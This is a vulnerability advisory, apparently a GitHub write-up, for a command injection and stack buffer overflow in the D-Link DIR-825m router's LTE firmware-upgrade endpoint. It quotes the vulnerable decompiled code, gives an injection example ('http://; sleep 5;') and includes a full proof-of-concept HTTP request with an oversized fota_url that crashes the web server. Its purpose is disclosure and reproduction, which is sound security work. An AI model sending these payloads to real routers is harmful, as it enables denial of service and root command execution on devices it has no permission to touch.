



# D-Link Router DIR-825m - Buffer Overflow in /boafrm/formLtefotaUpgradeQuectel 

## Vulnerability Details

### Detail Information

| **Field**              | **Value**                                                    |
| ---------------------- | ------------------------------------------------------------ |
| **Vendor**             | D-Link                                                       |
| **Product**            | D-Link DIR-825m                                              |
| **Affected Version**   | Firmware v1.1.12 (and potentially prior)                     |
| **Vulnerability Type** | Command Injection (CWE-78) / Stack-based Buffer Overflow (CWE-121) |
| **Vendor Homepage**    | https://www.dlink.com/                                       |

## Vulnerability Description

During a security review of the router's firmware, a critical vulnerability was identified in the `/boafrm/formLtefotaUpgradeQuectel` endpoint.

The vulnerability resides within the `sub_417DA4` function, which is executed when triggering a Quectel LTE module firmware upgrade. The function extracts the user-controlled `fota_url` parameter from the HTTP POST request and processes it. The function performs a loose validation using `strstr` to verify whether the protocol prefix (`"http://"`, `"https://"`, or `"ftp://"`) exists inside the input.

However, since `strstr` only performs a substring search rather than anchoring the check to the start of the string, and because the application lacks any sanitization or neutralization of shell control characters (e.g., `;`, `&`, `|`), an attacker can easily bypass this check.

The validated parameter is subsequently:

1. Formatted into a fixed-size local stack buffer `v6` (allocated with only 512 bytes) using `sprintf`.
2. Passed directly to `system()` to execute system utilities.

An attacker can exploit this by injecting shell control operators inside `fota_url` to execute arbitrary system commands with root privileges, or by providing an oversized parameter to overflow the stack buffer and hijack the program execution flow.

- **Vulnerability Location**: `/boafrm/formLtefotaUpgradeQuectel`
- **Vulnerable Function**: `sub_417DA4`

## Root Cause

The root cause of the vulnerability stems from two concurrent implementation flaws: **insecure protocol substring validation** and **direct execution of unvalidated input using bounded local stack formatting**.



### 1. Command Injection (CWE-78)

In `sub_417DA4`, the parameter `fota_url` is fetched and stored in `v4`:

```c
v2 = sub_41351C(a1, "fota_url", "");
v4 = v2;
```

The validation block check is implemented as:

```c
if ( v2 && (strstr(v2, "http://") || strstr(v4, "https://") || strstr(v4, "ftp://")) )
```

Because `strstr` returns a pointer to the first occurrence of the target substring *anywhere* in the string, a payload such as `http://; sleep 5;` or `; sleep 5; http://` will satisfy this requirement.

Subsequently, the command is formatted and executed via:

```c
sprintf(v6, "/var/upgrade_quectel %s&", v4);
system(v6);
```

Due to the shell invoking `/bin/sh` behind `system()`, the shell interprets the semicolon `;` as a command separator, allowing arbitrary commands following it to execute concurrently.

### 2. Stack-based Buffer Overflow (CWE-121)

The local buffer `v6` is declared on the stack with a limited size:

```c
char v6[512];
```

The program uses `sprintf` to write the formatted command into `v6`. Since `sprintf` does not perform bounds checking, providing a `fota_url` parameter larger than **488 bytes** ($512 - 24$ bytes of the static template prefix `/var/upgrade_quectel  &`) will overflow the bounds of `v6`, overwriting adjacent stack memory, stack frames, and the saved return address (`$ra` in MIPS/ARM).

## Impact

An attacker can exploit this vulnerability to achieve the following outcomes:

- **Arbitrary Command Execution**: Run arbitrary system commands with highest (`root`) privileges on the device.
- **Denial of Service (DoS)**: Overwrite the stack frame, corrupt memory, and crash the Web server process, making the administration interface unavailable.

## Proof of Concept (PoC)

An attacker can provide a long sequence of characters preceding/succeeding the protocol schema to overwrite the stack and crash the web server.

```HTTP
POST /boafrm/formLtefotaUpgradeQuectel HTTP/1.1
Host: 192.168.0.1
Content-Length: 733
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/fota_quectel.htm
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: webuicookie=16041527100846930886
Connection: close

fota_url=https%3A%2F%2FAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&submit-url=%2Ffota_quectel.htm
```

##  screenshots of the local reproduction

- Setting up the environment using firmae and Running the PoC via Burp Repeater



- Result:

  
